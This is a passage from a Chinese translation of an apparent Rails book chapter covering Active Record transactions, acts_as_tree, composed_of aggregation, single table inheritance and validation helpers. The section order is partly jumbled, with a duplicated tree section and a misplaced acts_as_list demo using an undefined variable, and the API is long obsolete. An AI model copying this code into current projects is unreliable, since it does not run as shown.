rescue
  puts "Transfer aborted"
end
```

```ruby
puts "Paul has #{paul.balance}"
puts "Peter has #{peter.balance}"
```

这次我们看到模型在结束时未发生改变。


```text
Transfer aborted
Paul has 200.0
Peter has 100.0
```

我们可以通过将转账功能移动到`Account`类中来使代码更整洁一些。因为转账涉及两个独立的账户，并且不是由其中任何一个驱动的，我们将把它变成一个类方法，该方法接受两个账户对象作为参数。注意我们如何在类方法内部简单地调用`transaction()`方法。

```ruby
class Account < ActiveRecord::Base
  def self.transfer(from, to, amount)
    transaction(from, to) do
      from.withdraw(amount)
      to.deposit(amount)
    end
  end
end
```

定义了这个方法后，我们的转账操作就整洁多了。

```ruby
peter = Account.create(:balance => 100, :number => "12345")
paul   = Account.create(:balance => 200, :number => "54321")
```

```ruby
Account.transfer(peter, paul, 350) rescue puts "Transfer aborted"
```

```ruby
puts "Paul has #{paul.balance}"
puts "Peter has #{peter.balance}"
```

```text
Transfer aborted
Paul has 200.0
Peter has 100.0
```

让事务代码自动恢复对象状态有一个缺点——你无法获取在验证过程中添加的任何错误信息。无效对象将不会被保存，事务将回滚所有操作，但没有简单的方法知道哪里出了问题。

### 内置事务

当我们讨论父表和子表时，我们提到当保存父行时，Active Record 会负责保存所有依赖的子行。这需要执行多个 SQL 语句（一个用于父表，每个更改或新增的子行各一个）。显然，这个更改应该是原子性的，但直到现在，在保存这些相互关联的对象时，我们并没有使用事务。我们是不是疏忽了？

幸运的是，没有。Active Record 足够智能，它会将与特定`save()`相关的所有更新和插入（以及与`destroy()`相关的删除）包装在一个事务中；它们要么全部成功，要么没有数据永久写入数据库。只有在你自己管理多个 SQL 语句时，才需要显式事务。

### 多数据库事务

在 Rails 中，你如何跨多个不同数据库同步事务？

目前的答案是，你不能。Rails 不支持分布式两阶段提交（这是让数据库相互同步的协议的行话术语）。

然而，你可以（几乎）通过嵌套事务来模拟这种效果。请记住，事务与数据库连接相关联，而连接又与模型相关联。因此，如果`accounts`表在一个数据库中，而`users`表在另一个数据库中，你可以使用类似这样的方式模拟一个跨越两者的事务：

```ruby
User.transaction(user) do
    Account.transaction(account) do
        account.calculate_fees
        user.date_fees_last_calculated = Time.now
        user.save
        account.save
    end
end
```

这只是对解决方案的一种近似。`users`数据库中的提交可能会失败（例如磁盘已满），但到那时`accounts`数据库中的提交已经完成并且表已经更新。这将使整个事务处于不一致的状态。对于每种特定情况，可以（虽然不愉快）编写代码来处理这些问题，但目前，如果你正在编写并发更新多个数据库的应用程序，可能不应该依赖 Active Record。

## 第 17 章

### Acts As Tree

Active Record 还提供了一个名为`acts_as_tree`的声明，用于管理父-子关系，其中的结构可能有多层深度。

表结构与`acts_as_list`使用的结构非常相似。这是我们将在`children`表中使用的结构：

```sql
create table children (
  id               int          not null auto_increment,
  parent_id        int,
  name             varchar(20),
  primary key (id)
);
```

这次表中没有`position`列，因为我们不关心同一级别内的排序。对于顶层条目，`parent_id`列可以为`NULL`。

对应的模型更简单：

```ruby
class Child < ActiveRecord::Base
  acts_as_tree :order => :name
end
```

同样，`:order`选项确保父节点的子节点按正确顺序返回。

`acts_as_tree`声明向模型添加了几个有用的方法。其中最有用的是`parent`、`children`、`root`和`siblings`。

- `parent`返回当前子节点的父节点。
- `children`返回一个包含该子节点直接子节点的数组。
- `root`返回当前子节点所属树中的顶层条目。
- `siblings`返回一个包含该子节点兄弟节点的数组（即具有相同父节点的其他条目）。

让我们创建一个小树并操作它：

```ruby
root = Child.create(:name => 'Root')
a = root.children.create(:name => 'A')
b = root.children.create(:name => 'B')
a1 = a.children.create(:name => 'A1')
a2 = a.children.create(:name => 'A2')
b1 = b.children.create(:name => 'B1')
b2 = b.children.create(:name => 'B2')
a11 = a1.children.create(:name => 'A11')
```

现在我们可以遍历这棵树了：

```ruby
puts a.parent.name         # => Root
puts a.root.name           # => Root
puts a.children.size       # => 2
puts a.siblings.size       # => 1 (只有 B)
puts a11.siblings.size     # => 0 (它是唯一的 A11)
puts a11.parent.parent.name # => A
```

`acts_as_tree`声明还添加了`ancestors`和`descendants`方法，它们分别返回从当前节点到根节点的整个父节点链，以及从当前节点到所有叶子节点的所有后代。

```ruby
puts a11.ancestors.map(&:name).inspect # => ["A1", "A", "Root"]
puts root.descendants.map(&:name).inspect # => ["A", "A1", "A11", "A2", "B", "B1", "B2"]
```

这些方法使得遍历复杂的层次数据变得容易。

我们将编写一个简单的方法来检查列表的内容。

```ruby
def display_children(parent)
  puts parent.children.map {|child| child.name }.join(', ')
end
```

最后，我们将操作我们的列表。注释显示了`display_children()`产生的输出。

```ruby
display_children(parent)              #=> One, Two, Three, Four

puts parent.children[0].first?       #=> true

two = parent.children[1]
puts two.lower_item.name             #=> Three
puts two.higher_item.name            #=> One

parent.children[0].move_lower
parent.reload
display_children(parent)              #=> Two, One, Three, Four

parent.children[2].move_to_top
parent.reload
display_children(parent)              #=> Three, Two, One, Four

parent.children[2].destroy
parent.reload
display_children(parent)              #=> Three, Two, Four
```

注意我们为什么必须在父对象上调用`reload()`。各种`move_`方法会在数据库中更新子项，但由于它们直接操作子项，父对象不会立即知道这些更改。

该列表库使用术语`higher`（更高）和`lower`（更低）来指代元素的相对位置。`higher`表示更靠近列表的前端，`lower`表示更靠近末尾。因此，列表的顶部与前端相同，列表的底部就是末尾。方法`move_higher()`、`move_lower()`、`move_to_bottom()`和`move_to_top()`可以在列表中移动特定项，并自动调整其他元素的位置。

`higher_item()`和`lower_item()`分别返回当前元素的下一个和上一个元素，而`first?()`和`last?()`在当前元素位于列表的前端或末尾时返回`true`。



### categories

| id | parent_id | ... |
|---|---|---|
| 1 | null | ... |
| 2 | 1 | ... |
| 3 | 1 | ... |
| 4 | 3 | ... |
| 5 | 1 | ... |
| 6 | 3 | ... |
| 7 | 2 | ... |
| 8 | 6 | ... |
| 9 | 6 | ... |

### 图 17.1：使用父链接在表中表示树

新创建的子项会自动添加到列表的末尾。当一个子行被销毁后，列表中其后的子项会向上移动以填补空缺。

### Acts As Tree

Active Record 提供了将表中的行组织为层次结构或树形结构的支持。这对于创建具有子条目的结构非常有用，而这些子条目可能又有它们自己的子条目。类别列表通常具有这种结构，权限描述、目录列表等也是如此。

这种树形结构是通过在表中添加一个单独的列（默认名为`parent_id`）来实现的。此列是回到同一表的外键引用，将子行链接到其父行。图 17.1 展示了这一点。

为了展示树的工作原理，让我们创建一个简单的类别表，其中每个顶级类别可能有子类别，每个子类别可能有额外层级的子类别。注意指向同一表的外键。

```sql
create table categories (
    id        int         not null auto_increment,
    name      varchar(100) not null,
    parent_id int,
    constraint fk_category foreign key (parent_id) references categories(id),
    primary key (id)
);
```

对应的模型使用名为`acts_as_tree`的方法来指定关系。`:order`参数意味着当我们查看特定节点的子项时，我们将看到它们按`name`列排列。

```ruby
class Category < ActiveRecord::Base
  acts_as_tree :order => "name"
end
```

通常，您会有一些最终用户功能来创建和维护类别层次结构。这里，我们将仅使用代码创建它。注意我们如何使用`children`属性操作任何节点的子项。

```ruby
root        = Category.create(:name => "Books")
fiction     = root.children.create(:name => "Fiction")
non_fiction = root.children.create(:name => "Non Fiction")

non_fiction.children.create(:name => "Computers")
non_fiction.children.create(:name => "Science")
non_fiction.children.create(:name => "Art History")

fiction.children.create(:name => "Mystery")
fiction.children.create(:name => "Romance")
fiction.children.create(:name => "Science Fiction")
```

现在一切准备就绪，我们可以操作树形结构了。我们将使用为*acts as list*代码编写的同一个`display_children()`方法。

```ruby
display_children(root)              # Fiction, Non Fiction

sub_category = root.children.first
puts sub_category.children.size     #=> 3
display_children(sub_category)      #=> Mystery, Romance, Science Fiction

non_fiction = root.children.find(:first, :conditions => "name = 'Non Fiction'")

display_children(non_fiction)       #=> Art History, Computers, Science

puts non_fiction.parent.name    #=> Books
```

我们用来操作子项的各种方法看起来应该很熟悉：它们与`has_many`提供的方法相同。事实上，如果我们查看`acts_as_tree`的实现，我们会看到它所做的只是建立一个`belongs_to`和一个`has_many`属性，每个都指向同一表。就好像我们写了：

```ruby
class Category < ActiveRecord::Base
  belongs_to :parent,
             :class_name => "Category"

  has_many   :children,
             :class_name => "Category",
             :foreign_key => "parent_id",
             :order       => "name",
             :dependent   => true
end
```

如果您需要优化`children.size`的性能，您可以建立一个计数器缓存（就像对`has_many`所做的那样）。在`acts_as_tree`声明中添加选项`:counter_cache => true`，并在您的表中添加`children_count`列。

## 17.2 聚合

数据库列有一组有限的类型：整数、字符串、日期等。通常，我们的应用程序更加丰富——我们倾向于定义类来表示代码中的抽象。如果我们能以某种方式将数据库中的一些列信息映射到我们的高级抽象中，就像我们将行数据本身封装在模型对象中一样，那就太好了。

例如，一个客户数据表可能包含用于存储客户姓名的列——可能是名字、中间名首字母和姓氏。在我们的程序内部，我们希望将这些与姓名相关的列包装到一个单独的`Name`对象中；这三个列被映射到一个单独的 Ruby 对象，该对象与所有其他客户字段一起包含在客户模型中。而且，当我们需要将模型写回时，我们希望将数据从`Name`对象中提取出来，并放回数据库中适当的三个列中。



这种功能称为*聚合*（尽管有些人称之为*组合*——这取决于您是从上往下看还是从下往上看）。毫不奇怪，Active Record 使其易于实现。您定义一个类来保存数据，并在模型类中添加一个声明，告诉它如何将数据库列与数据持有者类的对象进行双向映射。

持有组合数据的类（本例中的`Name`类）必须满足两个条件。首先，它必须有一个构造函数，该构造函数接受数据库列中出现的数据，每列一个参数。其次，它必须提供返回这些数据的属性，同样是每个列一个属性。在内部，它可以以任何需要的形式存储数据，只要它能映射列数据的输入和输出即可。

对于我们的姓名示例，我们将定义一个简单的类，将三个组件作为实例变量保存。我们还将定义一个`to_s()`方法，将全名格式化为字符串。

```ruby
class Name
  attr_reader :first, :initials, :last

  def initialize(first, initials, last)
    @first = first
    @initials = initials
    @last = last
  end

  def to_s
    [ @first, @initials, @last ].compact.join(" ")
  end
end
```


现在我们需要告诉`Customer`模型类，数据库中的三列`first_name`、`initials`和`last_name`应该映射到`Name`对象。我们通过`composed_of`声明来实现这一点。

虽然`composed_of`可以只用一个参数调用，但首先描述声明的完整形式并展示如何为各种字段设置默认值会更容易理解。

`composed_of :attr_name, :class_name => SomeClass, :mapping => mapping`

`attr_name`参数指定复合属性在模型类中将被赋予的名称。如果我们这样定义我们的`Customer`：

```ruby
class Customer < ActiveRecord::Base
  composed_of :name, ...
end
```

我们就可以通过`customer`对象的`name`属性访问这个复合对象。

```ruby
customer = Customer.find(123)
puts customer.name.first
```

`:class_name`选项指定持有复合数据的类名。该选项的值可以是一个类常量，也可以是包含类名的字符串或符号。在我们的例子中，这个类是`Name`，所以我们可以这样指定：

```ruby
class Customer < ActiveRecord::Base
  composed_of :name, :class_name => Name, ...
end
```

如果类名恰好是属性名的混合大小写形式（在我们的例子中就是这样），那么它可以被省略。

`:mapping`参数告诉 Active Record 表中的列如何映射到复合对象中的属性和构造函数参数。`:mapping`的参数可以是一个包含两个元素的数组，也可以是一个由多个这样的数组组成的数组。每个两元素数组的第一个元素是数据库列的名称。第二个元素是复合属性中相应访问器的名称。映射参数中元素出现的顺序定义了数据库列内容作为参数传递给复合对象`initialize()`方法的顺序。下一页的图 17.2 展示了`mapping`选项的工作原理。如果省略此选项，Active Record 将假定数据库列和复合对象属性与模型属性同名。

对于我们的`Name`类，我们需要将三个数据库列映射到复合对象中。`customers`表的定义如下。

```sql
Download e1/ar/create.sql
create table customers (
  id               int             not null auto_increment,
  created_at       datetime        not null,
  credit_limit     decimal(10,2)   default 100.0,
  first_name       varchar(50),
  initials         varchar(20),
  last_name        varchar(50),
  last_purchase    datetime,
  purchase_count   int             default 0,
  primary key (id)
);
```

列`first_name`、`initials`和`last_name`应该映射到`Name`类中的`first`、`initials`和`last`属性。² 为了向 Active Record 指定这一点，我们将使用以下声明。

```ruby
Download e1/ar/aggregation.rb
class Customer < ActiveRecord::Base
  composed_of :name,
              :class_name => Name,
              :mapping =>
              [ # 数据库列        Ruby 属性
                [ :first_name,      :first ],
                [ :initials,        :initials ],
                [ :last_name,       :last ]
              ]
end
```

> ² 在实际应用中，我们更倾向于看到属性的名称与列的名称相同。这里使用不同的名称有助于我们展示`:mapping`选项参数的作用。

尽管我们花了相当长的时间来描述这些选项，但实际上创建这些映射非常简单。一旦完成，它们就很容易使用：模型对象中的复合属性将是您定义的复合类的实例。

```ruby
name = Name.new("Dwight", "D", "Eisenhower")

Customer.create(:credit_limit => 1000, :name => name)

customer = Customer.find(:first)
puts customer.name.first      #=> Dwight
puts customer.name.last       #=> Eisenhower
puts customer.name.to_s       #=> Dwight D Eisenhower
customer.name = Name.new("Harry", nil, "Truman")
customer.save
```

这段代码在`customers`表中创建了一个新行，其中`first_name`、`initials`和`last_name`列从新`Name`对象的`first`、`initials`和`last`属性初始化。它从数据库中获取此行，并通过复合对象访问字段。最后，它更新了该行。请注意，您无法更改复合对象中的字段。相反，您必须传入一个新对象。

复合对象不一定要将数据库中的多个列映射到单个对象中；通常将单个列映射到除整数、浮点数、字符串或日期时间之外的其他类型也很有用。一个常见的例子是表示金额的数据库列：与其将数据存储为原生浮点数，您可能希望创建具有您在应用程序中所需属性（例如舍入行为）的特殊`Money`对象。

回到第 256 页，我们看到了如何使用`serialize`声明将结构化数据存储在数据库中。我们也可以使用`composed_of`声明来实现这一点。与其使用 YAML 将数据序列化到数据库列中，我们不如让复合对象自己进行序列化。举个例子，让我们重新审视存储客户最近五次购买记录的方式。之前，我们将列表保存为 Ruby 数组，并将其作为 YAML 字符串序列化到数据库中。现在，让我们将信息包装在一个对象中，并让该对象以其自己的格式保存数据。在这种情况下，我们将把产品列表保存为常规字符串中的以逗号分隔的值。

首先，我们将创建`LastFive`类来包装这个列表。因为数据库将列表存储在一个简单的字符串中，所以它的构造函数也将接受一个字符串，并且我们需要一个以字符串形式返回内容的属性。但在内部，我们将列表存储在一个 Ruby 数组中。

```ruby
class LastFive
  attr_reader :list

  # 接受包含 "a,b,c" 的字符串并存储 [ 'a', 'b', 'c' ]
  def initialize(list_as_string)
    @list = list_as_string.split(/,/)
  end

  # 以逗号分隔的字符串形式返回我们的内容
  def last_five
    @list.join(',')
  end
end
```

我们可以声明我们的`LastFive`类包装数据库中的`last_five`列。

```ruby
class Purchase < ActiveRecord::Base
  composed_of :last_five
end
```

运行此代码后，我们可以看到`last_five`属性包含一个值数组。

```ruby
Purchase.create(:last_five => LastFive.new("3,4,5"))

purchase = Purchase.find(:first)

puts purchase.last_five.list[1]        #=>  4
```

### 复合对象是值对象

*值对象*是一种在创建后其状态就不能被改变的对象——它实际上是被冻结的。Active Record 中聚合的理念是复合对象是值对象：您永远不应该改变它们的内部状态。

这并非总是能由 Active Record 或 Ruby 直接强制执行——例如，您可以使用`String`类的`replace()`方法来更改复合对象某个属性的值。但是，如果您这样做，Active Record 在后续保存模型对象时会忽略此更改。

更改与复合属性关联的列值的正确方法是为该属性分配一个新的复合对象。

```ruby
customer = Customer.find(123)
old_name = customer.name
customer.name = Name.new(old_name.first, old_name.initials, "Smith")
customer.save
```

## 17.3 单表继承

当我们使用对象和类进行编程时，有时会使用继承来表达抽象之间的关系。我们的应用程序可能处理扮演不同角色的人：客户、员工、经理等等。所有角色都会有一些共同属性和一些特定于角色的属性。我们可以通过说类`Employee`和类`Customer`都是类`Person`的子类，而`Manager`又是`Employee`的子类来建模。子类*继承*其父类的属性和职责。

在关系型数据库世界中，我们没有继承的概念：关系主要以关联的形式表达。然而，我们可能需要将一个面向对象的对象模型存储在关系型数据库中。有许多方法可以将一种模型映射到另一种模型。最简单的方法可能是称为*单表继承*的方案。在该方案中，我们将继承层次结构中的所有类映射到单个数据库表中。该表包含层次结构中所有类每个属性对应的一列。它还额外包含一列，按惯例称为`type`，用于标识任何特定行所代表的具体对象类。这在第 321 页的图 17.3 中进行了说明。

在 Active Record 中使用单表继承非常直接。在您的模型类中定义所需的继承层次结构，并确保……

这意味着，对应于层次结构基类的表，包含了该层次结构中所有类的属性列。此外，该表必须包含一个类型列，用于区分对应模型对象的类。

在定义表时，请记住子类的属性将仅出现在对应于这些子类的表行中；例如，员工没有余额属性。因此，你必须定义该表，允许任何未在所有子类中出现的列为空值。以下是第321页图17.3所示表的 DDL。

```sql
create table people (
    id          int           not null auto_increment,
    type        varchar(20)   not null,

    /* common attributes */
    name        varchar(100)  not null,
    email       varchar(100)  not null,

    /* attributes for type=Customer */
    balance     decimal(10,2),

    /* attributes for type=Employee */
    reports_to  int,
    dept        int,

    /* attributes for type=Manager */
    /* - none - */

    constraint fk_reports_to foreign key (reports_to) references people(id),
    primary key (id)
);
```

我们可以定义我们的模型对象层次结构。

```ruby
class Person < ActiveRecord::Base
end

class Customer < Person
end

class Employee < Person
end

class Manager < Employee
end
```

然后我们创建几行数据并读取它们。

```ruby
Manager.create(:name => 'Bob', :email => "bob@some.add",
               :dept => 12, :reports_to => nil)

Customer.create(:name => 'Sally', :email => "sally@other.add",
               :balance => 123.45)

person = Person.find(:first)
person.class      #=> Manager
puts person.name   #=> Bob
puts person.dept   #=> 12
```

```ruby
class Person < ActiveRecord::Base
  # ...
end

class Customer < Person
  # ...
end

class Employee < Person
  # ...
end

class Manager < Employee
  # ...
end
```

`people`

| id | type | name | email | balance | reports_to | dept |
|---|---|---|---|---|---|---|
| 1 | Customer | John Doe | john@doe.com | 78.29 | | |
| 2 | Manager | Wilma Flint | wilma@here.com | | | 23 |
| 3 | Customer | Bert Public | b@public.net | 12.45 | | |
| 4 | Employee | Barney Rub | barney@here.com | | 2 | 23 |
| 5 | Employee | Betty Rub | betty@here.com | | 2 | 23 |
| 6 | Customer | Ira Buyer | ira9652@aol.com | -66.75 | | |
| 7 | Employee | Dino Dogg | dino@dig.prg | | 2 | 23 |

图17.3：单表继承：四个类的层次结构映射到一个表

```ruby
person = Person.find_by_name("Sally")
puts person.class    #=> Customer
puts person.email    #=> sally@other.add
puts person.balance  #=> 123.45
```

注意我们如何请求基类`Person`来查找一行，但返回对象的类在一个实例中是`Manager`，在另一个实例中是`Customer`；Active Record 通过检查行的类型列来确定类型，并创建相应的对象。

使用单表继承时，有一个相当明显的约束。两个子类不能有同名但类型不同的属性，因为这两个属性将映射到底层模式中的同一列。

还有一个不太明显的约束。`type`属性也是一个内置的 Ruby 方法名，因此直接访问它来设置或更改行的类型可能会导致奇怪的 Ruby 消息。相反，应通过创建相应类的对象来隐式访问它，或者通过模型对象的索引接口访问它，使用类似

```ruby
person[:type] = 'Manager'
```

这样的方式。

## 17.4 验证

Active Record 可以验证模型对象的内容。当对象被保存时，可以自动执行此验证。你也可以通过编程方式请求验证模型的当前状态。

正如我们在前一章提到的，Active Record 区分了对应于数据库中已有行的模型和那些没有的模型。后者被称为新记录（`new_record?()`方法对它们返回`true`）。当你调用`save()`方法时，Active Record 将对新记录执行 SQL 插入操作，对现有记录执行更新操作。

这种区别体现在 Active Record 的验证工作流中——你可以指定在所有保存操作上执行的验证，以及只在创建或更新时执行的验证。

在最底层，你通过实现`validate()`、`validate_on_create()`和`validate_on_update()`方法中的一个或多个来指定验证。`validate()`方法在每次保存操作时都会被调用。另外两个方法之一是否被调用取决于记录是新的还是之前从数据库读取的。

> ### David 说……

> **子类在 STI 中不会共享所有属性吗？**
>
> 是的，但这并没有你想象的那么大问题。只要子类相似之处多于差异，处理客户时可以安全地忽略`reports_to`属性。你就是简单地不使用那个属性。
>
> 我们为了速度（仅从`people`表中选择比从`people`和`customers`表的连接中获取要快得多）和实现的简便性，牺牲了客户模型的纯粹性。
>
> 这在很多情况下有效，但并非全部。对于子类之间重叠很少的抽象关系，它效果不佳。例如，一个内容管理系统可以声明一个`Content`基类，并拥有诸如`Article`、`Image`、`Page`等子类。但这些子类可能差异很大，这将导致基表过大，因为它必须包含所有子类的所有属性。在这种情况下，最好使用关联并定义一个`ContentMetadata`类，所有具体的`content`类都可以与之建立`has_one()`关系。

你也可以在任何时候运行验证，而无需将模型对象保存到数据库，只需调用`valid?()`方法。这将调用与调用`save()`时会调用的相同的两个验证方法。

例如，以下代码确保用户名列始终设置为有效值，并且对于新的`User`对象，名称是唯一的。（我们稍后会看到如何更简单地指定这些类型的约束。）


```ruby
class User < ActiveRecord::Base
  def validate
    unless name && name =~ /^\w+$/
      errors.add(:name, "is missing or invalid")
    end
  end

  def validate_on_create
    if self.find_by_name(name)
      errors.add(:name, "is already being used")
    end
  end
end
```

当一个验证方法发现问题时，它使用`errors.add()`将消息添加到此模型对象的错误列表中。第一个参数是违规属性的名称，第二个是错误消息。如果需要添加适用于整个模型对象的错误消息，请改用`add_to_base()`方法。（注意，此代码使用了支持方法`blank?()`，如果其接收者为`nil`或空字符串，则返回`true`。）

```ruby
def validate
  if name.blank? && email.blank?
    errors.add_to_base("You must specify a name or an email address")
  end
end
```

正如我们将在第 429 页看到的，Rails 视图可以在向最终用户显示表单时使用此错误列表——出错的字段将被自动高亮显示，并且很容易在表单顶部添加一个带有错误列表的漂亮框。

你可以通过编程方式使用`errors.on(:name)`（别名为`errors[:name]`）获取特定属性的错误，并可以使用`errors.clear()`清除完整的错误列表。如果你查看`ActiveRecord::Errors`的 RDoc，你会发现许多其他方法。其中大多数已被更高层次的验证辅助方法所取代。

### 验证辅助方法

有些验证是常见的：此属性不能为空，那个其他属性必须在18到65之间，等等。Active Record 有一组标准的辅助方法，可以将这些验证添加到你的模型中。每个都是类级别的方法，并且所有方法名都以`validates_`开头。每个方法接受一个属性名称列表，后面可选地跟随一个用于验证的配置选项哈希表。

例如，我们可以将之前的验证编写为：

```ruby
class User < ActiveRecord::Base
  validates_format_of :name,
                     :with => /^\w+$/,
                     :message => "is missing or invalid"

  validates_uniqueness_of :name,
                         :on => :create,
                         :message => "is already being used"
end
```

大多数的`validates_`方法都接受`:on`和`:message`选项。`:on`选项决定了何时应用验证，其取值可以是`:save`（默认值）、`:create`或`:update`。`:message`参数可用于覆盖生成的错误消息。

当验证失败时，这些辅助方法会向 Active Record 模型对象添加一个错误对象。该错误对象将与被验证的字段关联。验证完成后，你可以通过查看模型对象的`errors`属性来访问错误列表。当 Active Record 作为 Rails 应用程序的一部分使用时，这个检查过程通常分为两步：

1. 控制器尝试保存一个 Active Record 对象，但由于验证问题而保存失败（返回`false`）。控制器会重新显示包含错误数据的表单。
2. 视图模板使用`error_messages_for()`方法来显示模型对象的错误列表，用户有机会修正这些字段。

我们将在第 19.8 节“错误处理与模型对象”（第 429 页）中介绍表单和模型之间的交互。

以下是你可以在模型对象中使用的验证辅助方法列表。

### `validates_acceptance_of`

验证是否勾选了复选框。

```
validates_acceptance_of attr... [ options... ]
```

许多表单都有一个复选框，用户必须勾选才能接受某些条款或条件。此验证通过验证该属性的值是否为字符串`1`，来简单地确认此复选框是否已被勾选。该属性本身无需存储在数据库中（尽管如果你想明确记录确认操作，也可以存储它）。

```ruby
class Order < ActiveRecord::Base
  validates_acceptance_of :terms,
                         :message => "Please accept the terms to proceed"
end
```

**选项：**

- `:message` 文本 - 默认是 `"must be accepted."`
- `:on` - `:save`、`:create`或`:update`

### `validates_associated`

对关联对象执行验证。

```
validates_associated name... [ options... ]
```

对给定的属性执行验证，这些属性假定为 Active Record 模型。对于每个关联验证失败的属性，会向该属性的错误列表中添加一条统一的消息（也就是说，单个失败的详细原因不会出现在此模型的错误中）。

注意不要在相互引用的模型中包含`validates_associated()`调用：第一个模型会尝试验证第二个，而第二个又会验证第一个，如此循环，直到耗尽栈空间。

```ruby
class Order < ActiveRecord::Base
  has_many    :line_items
  belongs_to  :user

  validates_associated :line_items,
                      :message => "are messed up"
  validates_associated :user
end
```

**选项：**

- `:message` 文本 - 默认是 `"is invalid."`
- `:on` - `:save`、`:create`或`:update`

### `validates_confirmation_of`

验证一个字段与其孪生字段的内容是否相同。

```
validates_confirmation_of attr... [ options... ]
```

许多表单要求用户输入两次某些信息，第二次输入作为第一次输入无误的确认。如果你使用命名约定，将第二个字段的名称设为第一个字段名加上`_confirmation`后缀，那么你可以使用`validates_confirmation_of()`来检查这两个字段的值是否相同。第二个字段无需存储在数据库中。

例如，一个视图可能包含：

```erb
<%= password_field "user", "password" %><br />
<%= password_field "user", "password_confirmation" %><br />
```

在`User`模型中，你可以使用以下方法来验证两个密码是否一致：

```ruby
class User < ActiveRecord::Base
  validates_confirmation_of :password
end
```

**选项：**

- `:message` 文本 - 默认是 `"doesn't match confirmation."`
- `:on` - `:save`、`:create`或`:update`

### `validates_each`

使用代码块验证一个或多个属性。

```
validates_each attr... [ options... ] { |model, attr, value| ... }
```

为每个属性调用代码块（如果`:allow_nil`为 true，则跳过值为 nil 的属性）。它会传入正在验证的模型、属性名和属性的值。如下例所示，如果验证失败，代码块应向模型的错误列表中添加错误。

```ruby
class User < ActiveRecord::Base
  validates_each :name, :email do |model, attr, value|
    if value =~ /groucho|harpo|chico/i
      model.errors.add(attr, "You can't be serious, #{value}")
    end
  end
end
```

**选项：**

- `:allow_nil`（布尔值）- 如果`:allow_nil`为 true，值为 nil 的属性将不会被传递到代码块中。默认情况下会传递。
- `:on` - `:save`、`:create`或`:update`

### `validates_exclusion_of`

验证属性值不属于某个值集合。

```
validates_exclusion_of attr..., :in => enum [ options... ]
```

验证所有属性都不在`enum`中（任何支持`include?()`谓词的对象）。

```ruby
class User < ActiveRecord::Base
  validates_exclusion_of :genre,
                         :in => %w{ polka twostep foxtrot },
                         :message => "no wild music allowed"
  validates_exclusion_of :age,
                         :in => 13..19,
                         :message => "cannot be a teenager"
end
```

**选项：**

- `:allow_nil` - 如果属性为 nil 且`:allow_nil`选项为 true，则不检查`enum`。
- `:in`（或`:within`）（可枚举）- 一个可枚举对象。
- `:message`（文本）- 默认是 `"is not included in the list."`
- `:on` - `:save`、`:create`或`:update`

### `validates_format_of`

验证属性是否匹配某个模式。

```
validates_format_of attr..., :with => regexp [ options... ]
```

通过将每个属性的值与`regexp`匹配来进行验证。

```ruby
class User < ActiveRecord::Base
  validates_format_of :length, :with => /^\d+(in|cm)/
end
```

**选项：**

| 选项 | 类型 | 描述 |
| --- | --- | --- |
| `:message` | 文本 | 默认是 `"is invalid."` |
| `:on` |  | `:save`、`:create`或`:update` |
| `:with` |  | 用于验证属性的正则表达式。 |

### `validates_inclusion_of`

验证属性值属于某个值集合。

```
validates_inclusion_of attr..., :in => enum [ options... ]
```

验证每个属性的值是否在`enum`中（任何支持`include?()`谓词的对象）。

```ruby
class User < ActiveRecord::Base
  validates_inclusion_of :gender,
    :in => %w{ male female },
    :message => "should be 'male' or 'female'"
  validates_inclusion_of :age,
    :in => 0..130,
    :message => "should be between 0 and 130"
end
```

**选项：**

- `:allow_nil` - 如果属性为 nil 且`:allow_nil`选项为 true，则不检查`enum`。
- `:in`（或`:within`）可枚举 - 一个可枚举对象。
- `:message` 文本 - 默认是 `"is not included in the list."`
- `:on` - `:save`、`:create`或`:update`

### `validates_length_of`

验证属性值的长度。

```
validates_length_of attr..., [ options... ]
```

验证每个属性值的长度是否满足某些约束：至少达到给定长度、最多不超过给定长度、在两个长度之间，或正好等于给定长度。此验证器允许为不同的验证失败情况设置单独的消息，而不是只有一个`:message`选项，尽管仍然可以使用`:message`。在所有选项中，长度不能为负数。

```ruby
class User < ActiveRecord::Base
  validates_length_of :name,    :maximum => 50
  validates_length_of :password, :in => 6..20
  validates_length_of :address, :minimum => 10,
    :message => "seems too short"
end
```

**`validates_length_of` 的选项：**

| 选项 | 类型 | 描述 |
| --- | --- | --- |
| `:in`（或`:within`） | 范围 | 值的长度必须在指定范围内。 |
| `:is` | 整数 | 值的长度必须等于指定的整数。 |
| `:minimum` | 整数 | 值的长度不能小于指定的整数。 |
| `:maximum` | 整数 | 值的长度不能大于指定的整数。 |
| `:message` | 文本 | 默认消息取决于执行的测试。消息可以包含一个`%d`序列，它将被所需的最大、最小或精确长度替换。 |
| `:on` |  | `:save`、`:create`或`:update` |
| `:too_long` | 文本 | 当使用`:maximum`时，`:message`的同义词。 |
| `:too_short` | 文本 | 当使用`:minimum`时，`:message`的同义词。 |
| `:wrong_length` | 文本 | 当使用`:is`时，`:message`的同义词。 |

### `validates_numericality_of`

验证属性是否为有效的数字。

```
validates_numericality_of attr... [ options... ]
```

验证每个属性是否为有效的数字。使用`:only_integer`选项时，属性必须由一个可选的符号后跟一个或多个数字组成。如果不使用此选项（或该选项不为 true），则允许使用 Ruby`Float()`方法接受的任何浮点格式。

```ruby
class User < ActiveRecord::Base
  validates_numericality_of :height_in_meters
  validates_numericality_of :age, :only_integer => true
end
```

**选项：**

| 选项 | 类型 | 描述 |
| --- | --- | --- |
| `:message` | 文本 | 默认是 `"is not a number."` |
| `:on` |  | `:save`、`:create`或`:update` |
| `:only_integer` |  | 如果为 true，则属性必须是包含可选符号后仅跟数字的字符串。 |

### `validates_presence_of`

验证属性不为空。

```
validates_presence_of attr... [ options... ]
```

验证每个属性既不是 nil 也不为空。

```ruby
class User < ActiveRecord::Base
  validates_presence_of :name, :address
end
```

**选项：**

| 选项 | 类型 | 描述 |
| --- | --- | --- |
